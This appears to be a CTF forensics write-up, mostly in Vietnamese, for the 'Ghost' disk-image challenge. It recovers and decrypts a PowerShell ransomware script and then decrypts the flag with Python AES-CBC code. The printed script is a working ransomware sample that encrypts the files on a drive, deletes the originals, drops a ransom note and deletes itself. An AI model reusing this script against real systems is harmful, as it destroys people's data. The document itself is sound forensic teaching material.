

# Ghost

**Difficulty:** Medium
**Category:** Endpoint  
**Tools:** Autopsy

---
Đây là một challenge forensics trong l3ak ctf. Đề cho ta một file disk image.
## 🔍 Initial Analysis

Sử dụng **Autopsy** để phân tích disk image.



Ta thấy có một vài file đáng chú ý trong hệ thống.


### 📄 Ransom Note

Nội dung file `ransom_note.txt`:

```
i didn't mean to encrypt them.
i was just trying to remember.

the key? maybe it's still somewhere in the dark.
the script? it was scared, so it disappeared too.

maybe you'll find me.
maybe you'll find yourself.

- vivi (or his ghost)
```

Có vẻ như nội dung của ransomware script vẫn còn trên disk image.

---

## 🔓 Recovering the Encryption Script


File `.ps1` chứa thông tin về encryption parameters:
- **Key:** `0123456789abcdef`
- **IV:** `abcdef9876543210`
- **Mode:** CBC
- **Padding:** PKCS7

---

## 🔐 Decrypting payload.enc

Ta tiến hành decrypt file `payload.enc` với thông tin đã thu thập được.

```python
from Crypto.Cipher import AES
import base64

key = b'0123456789abcdef'
iv = b'abcdef9876543210'

with open('payload.enc', 'r') as pl:
    data = pl.read()

cipher = AES.new(key, AES.MODE_CBC, iv)
base64_data = base64.b64decode(data)
plaintext = cipher.decrypt(base64_data)

# Remove PKCS7 padding
pad_len = plaintext[-1]
plaintext = plaintext[:-pad_len]

print(plaintext.decode("utf-8", errors="ignore"))
```

### 📋 Decrypted Script Output

```powershell
┌──(nqghuy㉿kali)-[/mnt/e/CTF/forensics/Ghost]
└─$ python3 decrypt_script.py
$key = [System.Text.Encoding]::UTF8.GetBytes("m4yb3w3d0nt3x1st")
$iv  = [System.Text.Encoding]::UTF8.GetBytes("l1f31sf0rl1v1ng!")

$AES = New-Object System.Security.Cryptography.AesManaged
$AES.Key = $key
$AES.IV = $iv
$AES.Mode = "CBC"
$AES.Padding = "PKCS7"

# Load plaintext flag from C:\ (never written to L:\ in plaintext)
$flag = Get-Content "C:\Users\Blue\Desktop\StageRansomware\flag.txt" -Raw
$encryptor = $AES.CreateEncryptor()
$bytes = [System.Text.Encoding]::UTF8.GetBytes($flag)
$cipher = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length)
[System.IO.File]::WriteAllBytes("L:\flag.enc", $cipher)

# Encrypt other files staged in D:\ (or L:\ if you're using L:\ now)
$files = Get-ChildItem "L:\" -File | Where-Object {
    $_.Name -notin @("ransom.ps1", "ransom_note.txt", "flag.enc", "payload.enc", "loader.ps1")
}

foreach ($file in $files) {
    $plaintext = Get-Content $file.FullName -Raw
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($plaintext)
    $cipher = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length)
    [System.IO.File]::WriteAllBytes("L:\$($file.BaseName).enc", $cipher)
    Remove-Item $file.FullName
}

# Write ransom note
$ransomNote = @"
i didn't mean to encrypt them.
i was just trying to remember.

the key? maybe it's still somewhere in the dark.
the script? it was scared, so it disappeared too.

maybe you'll find me.
maybe you'll find yourself.

- vivi (or his ghost)
"@
Set-Content "L:\ransom_note.txt" $ransomNote -Encoding UTF8

# Self-delete
Remove-Item $MyInvocation.MyCommand.Path
```

---

## 🚩 Decrypting the Flag


Với **key** và **IV** mới từ script, ta tiến hành decrypt `flag.enc`.

```python
from Crypto.Cipher import AES

key = b'm4yb3w3d0nt3x1st'
iv = b'l1f31sf0rl1v1ng!'

with open('flag.enc', 'rb') as pl:
    data = pl.read()

cipher = AES.new(key, AES.MODE_CBC, iv)
plaintext = cipher.decrypt(data)

# Remove PKCS7 padding
pad_len = plaintext[-1]
plaintext = plaintext[:-pad_len]

print(plaintext.decode("utf-8", errors="ignore"))
```

**Flag:** `[Your flag here]`

---

## 🎯 Key Takeaways

- **Forensic analysis** với Autopsy có thể recover deleted/hidden files
- **Ransomware scripts** thường để lại artifacts trên disk
- **Multi-stage encryption** đòi hỏi phân tích từng layer
- **PKCS7 padding** cần được xử lý khi decrypt AES-CBC

---

*Sometimes the ghost leaves traces... 👻*